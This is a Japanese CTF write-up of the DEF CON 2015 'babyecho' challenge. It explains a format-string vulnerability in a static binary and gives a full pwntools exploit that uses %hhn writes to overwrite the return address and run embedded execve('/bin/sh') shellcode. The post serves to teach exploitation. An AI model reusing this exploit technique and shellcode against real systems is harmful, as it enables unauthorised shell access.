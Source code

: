 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/01/08/defcon-qualifier-ctf-2015-babyecho/
date: 2016-01-08T02:18:11+09:00
tags: [ "ctf", "pwn", "writeup", "format-string-attack", "shellcode" ]
---
```


# DEF CON Qualifier 2015: babyecho

## [Baby's First 1: babyecho](https://github.com/ctfs/write-ups-2015/tree/master/defcon-qualifier-ctf-2015/babys-first/babyecho)

>   babyecho\_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me:3232  
>   [Download]()

format文字列攻撃の脆弱性のあるバイナリ。

``` sh
$ ./babyecho
Reading 13 bytes
%p
0xd
Reading 13 bytes
%10d%hhn
zsh: segmentation fault (core dumped)  ./babyecho
```

全て読むにはつらい大きなバイナリであるが、セキュリティ機構はほとんど存在していない。
libcを静的にlinkしているようである。
`%n`を入力すると`_n`が返ってくることなどから分かるが、libcの関数そのものではなく多少手が入れられている。

``` sh
$ ll babyecho
-rwxr-x--x 1 user user 664936 Jan  7 23:50 babyecho
$ ldd babyecho
    not a dynamic executable
$ checksec --file babyecho
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   babyecho
```

中を覗くと、main関数は以下のようなものと考えてよいと分かる。

``` c
int main(void) {
    char buf[1024];
    int flag = 0;
    char *p = buf;
    int len = 13;
    while (flag == 0) {
        assert (len <= 1024);
        printf("Reading %d bytes\n", len);
        fgets(stdin, buf, len);
        printf(buf);
        putchar('\n');
    }
    return 0;
}
```

攻撃の手順は以下のようになる。

-   `p`を表示し`esp`を得る。
-   `len`を書き換え長い文字列を送り込めるようにする。
-   `buf`にshellcodeを載せ、`main`の戻りアドレスをshellcodeへのポインタで書き換え、`flag`を書き換える。

これを実行するコードは以下のようになる。

``` python
#!/usr/bin/env python2
from pwn import * # https://github.com/Gallopsled/pwntools/tree/2.2/pwnlib

context.log_level = 'debug'
p = remote('localhost', 8022)
# p = process('./babyecho')

# ebp of main
# ret from printf
# buf        # esp
# 0xd        # esp + 0x4, $1
# 0xa        # esp + 0x8, $2
# 0x0        # esp + 0xc, $3
# 0xd        # esp + 0x10, $4, len of buf
# 0xffbd510c # esp + 0x14, $5, ptr to buf
# 0x0        # esp + 0x18, $6, break flag
# buf        # esp + 0x1c, $7
# ret        # esp + 0x42c, ret addr from main

p.recvline_regex('Reading \d+ bytes\n') # 13 bytes
p.sendline('%5$p')
buf = int(p.recvline(keepends=False), 16)
esp = buf - 0x1c

p.recvline_regex('Reading \d+ bytes\n') # 13 bytes
p.sendline(p32(esp + 0x10) + '%99d' + '%7$n')

p.recvline_regex('.*Reading \d+ bytes\n') # 103 bytes
p.sendline(p32(esp + 0x10) + '%999d' + '%7$n')

# http://shell-storm.org/shellcode/files/shellcode-827.php
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
p.recvline_regex('.*Reading \d+ bytes\n') # 1003 bytes

payload = ''
payload += p32(esp + 0x18) # $7
payload += p32(esp + 0x42c) # $8
payload += p32(esp + 0x42c + 1) # $9
payload += p32(esp + 0x42c + 2) # $10
payload += p32(esp + 0x42c + 3) # $11
ptr = esp + 0x1c + len(payload)
payload += shellcode
initial_len = len(payload)
payload += '%7$hhn'
payload += ('%%%dd' % ((ord(p32(ptr)[0]) -      initial_len) % 0x100 + 0x100)) + '%8$hhn'
payload += ('%%%dd' % ((ord(p32(ptr)[1]) - ord(p32(ptr)[0])) % 0x100 + 0x100)) + '%9$hhn'
payload += ('%%%dd' % ((ord(p32(ptr)[2]) - ord(p32(ptr)[1])) % 0x100 + 0x100)) + '%10$hhn'
payload += ('%%%dd' % ((ord(p32(ptr)[3]) - ord(p32(ptr)[2])) % 0x100 + 0x100)) + '%11$hhn'
p.sendline(payload)

p.sendline('ls')
p.interactive()
```
